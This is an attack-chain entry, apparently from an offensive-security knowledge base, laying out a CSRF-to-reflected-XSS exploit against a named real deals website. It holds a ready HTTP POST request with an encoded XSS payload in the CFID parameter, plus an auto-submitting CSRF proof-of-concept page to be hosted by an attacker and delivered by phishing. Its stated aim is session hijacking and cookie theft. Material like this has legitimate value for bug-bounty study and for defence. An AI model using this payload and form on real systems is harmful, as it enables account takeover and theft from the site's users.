

---
tags:
  - csrf
  - xss
  - web
  - coldfusion
  - session-hijacking
type: attack_chain
tools:
  - '[[tools/Burp-Suite-Professional]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Vulnerable-CSRF-Endpoint]]'
  - '[[procedures/Craft-Malicious-XSS-Payload-in-CFID]]'
  - '[[procedures/Create-CSRF-POC-with-Auto-Submission]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:55:37.677Z'
description: >-
  A multi-stage attack chaining CSRF to inject and reflect an XSS payload via
  the CFID parameter on the MTN Daily Deals ColdFusion site, enabling JavaScript
  execution for session hijacking.
id: 84510e34-4f64-4a47-8f8b-456071523093
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
---

# CSRF Exploitation Leading to Reflected XSS on MTN Daily Deals

Multi-stage attack chain demonstrating a complete attack workflow exploiting CSRF to deliver reflected XSS on the MTN Daily Deals website, allowing arbitrary JavaScript execution in the victim's browser.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite-Professional]]

### Target Environment

- Web platform using ColdFusion
- Accessible HTTPS endpoint: https://dailydeals.mtn.co.za/index.cfm?GO=DEALS
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- No credentials needed; targets authenticated users via social engineering
- Victim must be logged in to the site
- Attacker needs ability to host a malicious page or send phishing link

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint

procedure: [[procedures/Identify-Vulnerable-CSRF-Endpoint]]

**Objective**: Locate the POST endpoint lacking CSRF protection to enable forged requests.

**Instructions**: Analyze the target site to identify form submissions to /index.cfm?GO=DEALS. Use browser developer tools or a proxy to inspect requests, confirming no CSRF tokens are enforced and parameters like CFID are processed without validation.

**Expected Output**: Confirmation that POST requests to the endpoint accept arbitrary parameters without origin checks.

**Success Indicators**:
- Endpoint identified: https://dailydeals.mtn.co.za/index.cfm?GO=DEALS
- No CSRF token required in responses or forms

### Step 2: Craft Malicious Payload

procedure: [[procedures/Craft-Malicious-XSS-Payload-in-CFID]]

**Objective**: Create a URL-encoded XSS payload disguised as a CFID session identifier to inject script upon reflection.

**Instructions**: Use [[tools/Burp-Suite-Professional]] to intercept and modify a legitimate POST request. Set the CFID parameter to a malformed UUID followed by an XSS payload, such as 'fbe8c86c-c0b2-4421-8ca2-dcfc14763d6e">', URL-encoded as 'fbe8c86c-c0b2-4421-8ca2-dcfc14763d6e%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.domain%29%3E'. Include other parameters like CFTOKEN=0, category_id=9, cpID=1, location_id=0, m=1.

Execute the modified request using [[commands/Exploit-CSRF-XSS-POST]]:

```http
POST /index.cfm?GO=DEALS HTTP/1.1
Host: dailydeals.mtn.co.za
Content-Type: application/x-www-form-urlencoded

CFID=fbe8c86c-c0b2-4421-8ca2-dcfc14763d6e%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.domain%29%3E&CFTOKEN=0&category_id=9&cpID=1&location_id=0&m=1
```

**Expected Output**: Server reflects the CFID value back into the HTML response without sanitization, embedding the script.

**Success Indicators**:
- Payload reflected in response HTML
- No server-side filtering of HTML tags or JavaScript

### Step 3: Forge and Deliver CSRF Request

procedure: [[procedures/Create-CSRF-POC-with-Auto-Submission]]

**Objective**: Build an HTML page that tricks the victim into submitting the forged POST, executing the XSS in their authenticated session.

**Instructions**: Generate a malicious HTML form using [[tools/Burp-Suite-Professional]]'s CSRF PoC generator. The form auto-submits via JavaScript, using history.pushState to spoof the origin. Host this on an attacker-controlled site and lure the victim (e.g., via phishing email) to visit it while logged into the target site.

Example PoC HTML structure:

```html
<html>
<body>
<form action="https://dailydeals.mtn.co.za/index.cfm?GO=DEALS" method="POST">
<input type="hidden" name="CFID" value="fbe8c86c-c0b2-4421-8ca2-dcfc14763d6e%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.domain%29%3E">
<input type="hidden" name="CFTOKEN" value="0">
<input type="hidden" name="category_id" value="9">
<input type="hidden" name="cpID" value="1">
<input type="hidden" name="location_id" value="0">
<input type="hidden" name="m" value="1">
</form>
<script>document.forms[0].submit(); history.pushState({}, '', '/deals');</script>
</body>
</html>
```

**Expected Output**: Victim's browser submits the request, reflects the XSS, and executes alert(document.domain), confirming domain access.

**Success Indicators**:
- Alert pops up with 'dailydeals.mtn.co.za'
- Access to victim's cookies and session tokens via console

## Attack Chain Summary

### Key Achievements

1. Identified CSRF-vulnerable endpoint without protection tokens.
2. Injected and reflected XSS payload to execute JavaScript.
3. Enabled session hijacking and data theft via browser context exploitation.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
